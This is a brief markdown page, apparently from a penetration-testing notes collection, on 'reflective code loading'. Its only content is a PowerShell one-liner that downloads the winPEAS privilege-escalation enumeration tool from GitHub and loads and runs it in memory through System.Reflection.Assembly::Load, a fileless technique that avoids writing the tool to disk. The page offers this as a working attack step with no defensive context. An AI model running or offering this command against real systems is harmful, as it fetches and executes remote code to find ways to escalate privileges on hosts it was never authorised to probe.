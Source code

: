 ```yaml
---
title: reflective code loading
weight: 20
---
```


# powershell
----------------

```powershell
$url = "https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("log")

```
